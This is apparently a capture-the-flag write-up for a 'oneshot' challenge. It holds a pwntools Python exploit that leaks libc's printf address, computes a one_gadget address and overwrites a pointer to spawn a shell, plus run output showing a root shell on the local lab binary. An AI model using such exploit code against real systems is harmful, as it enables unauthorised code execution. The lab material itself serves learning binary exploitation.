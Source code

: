 ## **Exploit Code**

```python
# Exploit Code
from pwn import *

p = process('./one')
#gdb.attach(p)
printf = int(p.recvline().split(' ')[3],16)

libBase = printf - 0x55800
oneGadget = libBase + 0x4526a

log.info("libBase: " + str(hex(libBase)))
log.info("oneGadget: " + str(hex(oneGadget)))

p.sendline(p64(0xffffffffffffffa8))
#raw_input('1')
p.sendline(p64(oneGadget))
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/oneshot# python exploit.py 
[+] Starting local process './one': pid 4951
[*] libBase: 0x7f078dba4000
[*] oneGadget: 0x7f078dbe926a
[*] Switching to interactive mode
$ 
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/onegadget
```

**References**  
[https://www.lazenca.net/pages/viewpage.action?pageId=16810292](https://www.lazenca.net/pages/viewpage.action?pageId=16810292)